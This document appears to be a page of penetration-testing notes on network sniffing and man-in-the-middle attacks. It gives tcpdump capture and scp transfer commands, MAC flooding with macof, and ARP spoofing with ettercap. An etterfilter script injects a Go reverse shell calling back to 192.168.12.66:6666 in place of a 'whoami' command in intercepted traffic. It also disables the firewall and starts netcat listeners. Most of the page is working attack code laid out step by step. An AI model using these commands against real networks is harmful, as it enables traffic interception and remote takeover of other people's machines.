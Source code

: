 
Look Adapter:
```bash
ip address show eth1

```

Tcpdump in the eth1:
```bash
tcpdump -A -i eth1

```

Tcpdump save in a file:

```bash
tcpdump -A -i eth1 -w /tmp/tcpdump.pcap

```

Transfer the packet capture using scp:

```
scp admin@10.10.111.60:/tmp/tcpdump.pcap .
wireshark tcpdump.pcap
```

## Sniffing while MAC Flooding

```
tcpdump -A -i eth1 -w /tmp/tcpdump2.pcap
```


**macof**  floods  the  local network with random MAC addresses (causing some switches to fail  open in repeating mode, facilitating sniffing)

```
macof -i eth1

```

transfer the **pcap** to your machine

```
scp admin@10.10.111.60:/tmp/tcpdump2.pcap .   wireshark tcpdump2.pcap
```

### Man-in-the-Middle: Sniffing

![[Pasted image 20221120154936.png]]

```
ettercap -T -i eth1 -M arp
```

> nano whoami.ecf

if (ip.proto == TCP && tcp.src == 4444 && search(DATA.data, "whoami") ) {  
    log(DATA.data, "/root/ettercap.log");  
    replace("whoami", "echo 'package main;import\"os/exec\";import\"net\";func main(){c,_:=net.Dial(\"tcp\",\"192.168.12.66:6666\");cmd:=exec.Command(\"/bin/sh\");cmd.Stdin=c;cmd.Stdout=c;cmd.Stderr=c;cmd.Run()}' > /tmp/t.go && go run /tmp/t.go &" );  
    msg("###### ETTERFILTER: substituted 'whoami' with reverse shell. ######\n");  
}

_compile:_

> etterfilter whoami.ecf -o whoami.ef

_Disable the firewall:_

> ufw disable

start your listener (backgrounded):

> nc -nvlp 6666 &

Another shell run:

> sudo ettercap -T -i eth1 -M arp -F whoami.ef

When you receive:

![](https://miro.medium.com/max/599/1*G3Cdh610LDcmwzO167uF7A.png)

write in up shell:

> fg

and:

> nc -lvnp 6666 &